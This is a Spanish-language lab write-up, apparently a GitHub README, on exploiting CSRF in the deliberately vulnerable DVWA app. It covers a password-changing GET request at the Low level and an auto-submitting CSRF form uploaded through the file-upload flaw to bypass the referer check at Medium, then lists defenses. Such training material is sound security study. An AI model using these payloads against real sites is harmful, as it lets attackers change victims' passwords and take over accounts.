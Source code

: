 # 🛡️ DVWA - Cross Site Request Forgery (CSRF) - Low y Medium

En este repositorio se explica cómo explotar la vulnerabilidad **CSRF (Cross Site Request Forgery)** en los niveles **Low** y **Medium** dentro de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Realizar un ataque CSRF para **cambiar la contraseña de un usuario autenticado sin su consentimiento**, aprovechando la ausencia o debilidad de protecciones en el formulario vulnerable. Esto se puede lograr mediante técnicas de ingeniería social como enviar un enlace por email o redirigir a la víctima a una página maliciosa.

---

## 🔧 Nivel Low

### 🧪 Vulnerabilidad detectada
- No hay validación de origen ni token CSRF.
- El código fuente `low.php` acepta peticiones GET directamente sin verificar el origen ni incluir ningún token de seguridad.
- Además, al inspeccionar el botón Test Credentials, se observa un script que abre una ventana con `test_credentials.php`, útil para comprobar si la contraseña ha sido modificada.
- Usando **Burp Suite**, es posible interceptar y observar una petición GET.

---

### 🛠 Paso a paso

1. Inspeccionamos el elemento desde el apartado de CSRF y vemos que el botón **Test Credentials** ejecuta un script, el cual verifica si la contraseña se ha cambiado correctamente.

![Inspeccionar_Elemento](assets/CSRFL_Inspeccionar.png) 
   
2. Damos click en **Test Credentials** y vemos que podemos comprobar la contraseña del usuario *admin* y su contraseña por defecto *password*.

![Test_Credentials](assets/CSRFL_TestCredentials.png) 

3. Cambiamos la contraseña, introduciendo esta dos veces, y damos click en **Change**.
4. Vemos con la herramienta **Burp Suite** que en la petición GET podemos ver una URL desde donde se puede cambiar la contraseña.
```php
GET /dvwa/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change
```

![Cambio_contraseña](assets/CSRFL_GETChange.png) 

5. Copiamos esta URL y la pegamos sobre nuestro navegador.

![Copiar_URL](assets/CSRFL_URL.png) 

6. Realizamos cambios de la contraseña a *test123* desde la URL.

![Cambiar_contraseña_URL](assets/CSRFL_URLv2.png) 

7. Comprobamos que esta contraseña ha sido cambiada al haber modificado la URL y accedido al sitio web.

![Comprobar_contraseña](assets/CSRFL_test123.png) 


✅ **Exploit exitoso**: la contraseña cambia sin interacción del usuario.

---

## 🔧 Nivel Medium

### 🧪 Vulnerabilidad detectada
- El servidor verifica el **referer** o el origen de la petición.
- Una petición externa directa no funciona, pero se puede subir el exploit usando otra vulnerabilidad.

### 🛠 Paso a paso (CSRF + File Upload)

1. Cambiar el archivo `csrf.html` a `csrf.php`.
2. Establecer el nivel de seguridad en **Low** temporalmente.
3. Ir a la sección **File Upload** de DVWA.
4. Subir el archivo `csrf.php` al servidor.

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/dvwa/vulnerabilities/csrf/" method="GET">
      <input type="hidden" name="password_new" value="mediumpass" />
      <input type="hidden" name="password_conf" value="mediumpass" />
      <input type="hidden" name="Change" value="Change" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Una vez subido, visitar la URL del archivo, por ejemplo:

```
http://127.0.0.1/dvwa/hackable/uploads/csrf.php
```

✅ **Exploit exitoso**: al alojar el archivo en el mismo servidor, se evita el filtro del referer y se cambia la contraseña.

---

## ⚠️ Recomendaciones de seguridad

Para prevenir ataques CSRF:

- Usar tokens CSRF únicos por sesión y validados en el servidor.
- Verificar cabeceras de origen (`Origin` o `Referer`).
- No permitir cargas de archivos ejecutables.
- Aplicar SameSite en cookies.

---

## 📚 Recursos

- 🔗 [Writeup de Aftab Sama sobre CSRF](https://aftabsama.com/writeups/dvwa/cross-site-request-forgery-csrf/)
- ▶️ [Vídeo tutorial de CSRF en DVWA](https://www.youtube.com/watch?v=Nfb9E8MJv6k&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=4)
- 📖 [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
